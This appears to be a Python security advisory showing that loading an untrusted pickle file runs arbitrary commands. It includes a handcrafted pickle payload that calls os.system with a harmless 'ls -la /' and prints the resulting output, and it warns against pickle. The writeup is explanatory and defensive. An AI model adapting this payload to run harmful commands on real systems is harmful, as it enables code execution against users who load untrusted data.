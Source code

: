 Unrestricted code execution using pickle
========================================

Classification
--------------------------

* **Affected Components** : pickle

* **Operating System** : Linux

* **Python Versions** : 2.6.x, 2.7.x

* **Reproducible** : Yes


Source code 
--------------------------

```python
import pickle

obj = pickle.load(open('./bug.pickle'))
print "== Object =="
print repr(obj)
```

And copy following text into a file named ```bug.pickle```

```python
cos
system
(S'ls -la /'
tR.

```

Then put this file in the same folder as the ```test.py``` file

Steps to Produce/Reproduce
--------------------------

To reproduce the problem copy the `source code` in a file and execute the script using the following command syntax:

```python
$ python -OOBRtt test.py
```

Alternatively you can open python in interactive mode:

```python
$ python -OOBRtt <press enter>
```
Then copy the lines of code into the interpreter.  


Description
-----------

The module ```pickle``` is not made with security in mind and can be used to execute any instruction with same permissions and  privileges as the user that is running the code.

In this case we have used ```pickle``` to load a file that contains a perfectly valid instruction that will be executed and will produce the following:

```
total 104
drwxr-xr-x  24 root root  4096 Feb 28 01:42 .
drwxr-xr-x  24 root root  4096 Feb 28 01:42 ..
drwxr-xr-x   2 root root  4096 Feb 28 01:14 bin
drwxr-xr-x   3 root root  4096 Feb 28 01:57 boot
drwxr-xr-x  14 root root  3680 May  2 14:28 dev
drwxr-xr-x 158 root root 12288 Apr 30 22:16 etc
drwxr-xr-x   3 root root  4096 Feb 28 00:45 home
lrwxrwxrwx   1 root root    30 Feb 27 23:29 initrd.img -> /boot/initrd.img-3.2.0-4-amd64
drwxr-xr-x  18 root root  4096 Feb 28 01:54 lib
drwxr-xr-x   2 root root  4096 Feb 27 23:31 lib64
drwx------   2 root root 16384 Feb 27 23:25 lost+found
drwxr-xr-x   3 root root  4096 May  2 09:18 media
drwxr-xr-x   2 root root  4096 Dec  4 12:31 mnt
drwxr-xr-x   2 root root  4096 Feb 27 23:26 opt
dr-xr-xr-x 316 root root     0 Apr 16 12:21 proc
drwx------   2 root root  4096 Mar  7 22:48 .pulse
-rw-------   1 root root   256 Feb 28 00:47 .pulse-cookie
drwx------   7 root root  4096 Mar  7 23:09 root
drwxr-xr-x  21 root root   840 May  1 00:02 run
drwxr-xr-x   2 root root  4096 Feb 28 01:55 sbin
drwxr-xr-x   2 root root  4096 Jun 10  2012 selinux
drwxr-xr-x   2 root root  4096 Feb 27 23:26 srv
drwxr-xr-x  13 root root     0 Apr 16 12:21 sys
drwxrwxrwt  13 root root  4096 May  2 14:57 tmp
drwxr-xr-x  10 root root  4096 Feb 27 23:26 usr
drwxr-xr-x  13 root root  4096 Feb 28 07:21 var
lrwxrwxrwx   1 root root    26 Feb 27 23:29 vmlinuz -> boot/vmlinuz-3.2.0-4-amd64
== Object ==
0
```

In fact ```pickle``` loaded the file and executed the code without any control.

***NEVER use ANYTHING that uses ```pickle``` or ```cPickle``` as this two libraries are NOT designed as safe/secure solution for data serialization.***


Workaround
-----------


We are not aware on any **easy** solution other than trying to avoid using ```'pickle'``` or ```'pickle'``` in cases like the one examined.


Secure Implementation
-----------


##### WORK IN PROGRESS


References
-----------

[Python pickle][01]
[01]:https://docs.python.org/2/library/pickle.html

